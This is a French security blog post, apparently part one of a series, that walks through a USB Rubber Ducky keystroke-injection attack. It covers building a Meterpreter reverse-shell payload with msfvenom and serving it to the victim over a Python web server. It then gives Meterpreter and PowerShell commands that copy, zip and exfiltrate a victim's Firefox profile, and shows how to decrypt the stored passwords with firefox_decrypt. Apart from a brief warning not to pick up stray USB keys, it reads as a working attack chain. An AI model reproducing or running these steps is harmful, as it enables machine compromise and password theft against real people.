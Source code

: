 +++
date = "2020-03-23T10:27:00+00:00"
draft = false
tags = ['securité']
title = "Yourlabs security 1/3"
author = "Claw"
+++

## RubberDucky {#rubberducky}


### Fonctionnement


Il ressemble à une clef usb d'apparence anodine mais il s'agit en realité d'un clavier scripté capable de tapper plus de 1000mots par minute.
Il contient une carte memoire qui contient notre script et marche très bien sur tout OS même à jour. 

![](/img/sec/ducky.png)

### Objectifs

- desactiver les antivirus |
- configurer un proxy |
- démarrer un reverse shell |
- insertion de certificat d'autorité |
- démarrer des scripts powershell |
- tels qu'un ransomware |


Exemple de script RubberDucky:

```text
DELAY 700                        // Attendre 700 ms 
ESCAPE                           // Tapper Echap
DELAY 100                        // Attendre 100ms
CONTROL ESCAPE                   // Ouvrir le menu Démarer
DELAY 100
STRING Windows Security          // Tapper "Windows Security"
DELAY 200
...
```

### Compilation

![](/img/sec/comp.png)

Le compilateur est fournit en .jar c'est du java compilé et packagé:

- `-i` l'input
- `-l` l'output (doit tjs etre inject.bin)
- le plus important `-l` pour le langage du clavier


### Reverse shell

![](/img/sec/msfv.png)

Un reverse shell est un programme qui permet d'obtennir un acces distant pour executer des commandes.
Le but est de l'executer sur la machine de la victime pour qu'il se connecte a un shell qu'on a mit en ecoute de connection sur un serveur.

On utilise Msfvenom pour creer le payoad et Metasploit pour le server Meterpreter (cest sur celui ci que la victime va se connecter:
- `-a`: l'architecture CPU
- `--platform`: la plateforme (windows, android, nix...)
- `-p`: Le paylaod, dans ce cas meterpreter reverse_tcp
- `LHOST`: l'ip du server meterpreter
- `LPORT`: le port du server meterpreter
- `-e`: l'encoding
- `-f`: le format
- `>` /tmp/mad/666.exe: la destination

### Distribution

```bash
cd /tmp/mad && python -m http.server
# Sous ubuntu, debian... il faut utiliser python3 -m http.server
# car python = python2 sous ArchLinux python = python3
```

Une fois pret on utilise un petit server http pour que la victime puisse telecharger notre exe malvaillante

![](/img/sec/msf.png)


### Demo

[![](/img/sec/demoloosedoz.png)](https://yourlabs.io/oss/security/raw/master/assets/ducky-windoz.mp4)

[![](/img/sec/revshell.png)](https://yourlabs.io/oss/security/raw/master/assets/msf-reverseshell.mp4)

(clické sur les images pour voir les videos)

#### Conclusion: 

Ne ramassez pas les clefs usb que vous trouvez dans la rue

---

## Reverse shell

### Usages

- Vol de mots de passe firefox 
- Keylogger 
- Screen capture 
- Downloader et uploader des fichiers 
- Implementation d'un ransomeware 
- Reconnaissance et mouvement transversaux dans le reseau 
- ... 


### Vol de mots de passe Firefox

```powershell
meterpreter > shell
> powershell
> cd /users/<user> #(utilisez whoami pr le savoir)
> copy-item /users/33768/AppData/Roaming/Mozilla/Firefox/Profiles/*.default-release -destination /windows/temp/mad.default-release -recurse
> Compress-Archive -Path /windows/temp/mad.default-release -DestinationPath /windows/temp/mad.default-release.zip
> exit
> exit
meterpreter > Download /windows/temp/mad.default-release.zip /tmp
```

- [1] Lancer cmd)
- [2] Lancer powershell)
- [3] Copie des fichiers .default-release de firefox
- [4] Compression dans fichiers dans une archive zip
- [5-6] On exit 2 fois pour revenir au prompt `meterpreter >`
- [7] Exifltration de l'archive zip


### Extraction

Dans un autre terminal, on unzip et place les fichier dans le repetoir ~/.mozila/firefox

```bash
$ unzip mad.default-release.zip
$ sudo cp -r mad.default-release /home/<you>/.mozilla/firefox
$ sudo chown -R ${USER}. /home/<you>/.mozilla/firefox/mad.default-release
```

### Configuration

Par la suite on edite `~/.mozilla/firefox/profiles.ini avec le nouveau profile`

```text
[Profile2]
Name=default-release
IsRelative=1
Path=mad.default-release
```

### Dechiffrement

On utilise un outil appellé "[firefox-decrypt](https://github.com/Unode/firefox_decrypt/)":

```bash
$ git clone https://github.com/unode/firefox_decrypt.git
$ cd firefox_decrypt
$ python firefox_decrypt.py
```


### Resultat

![](/img/sec/password.png)


- [Partie 2: Ransomware](/posts/2020-03-24-windows_ransomware/)
- [Partie 3: SSL mitm](/posts/2020-03-24-ssl_mitm/)
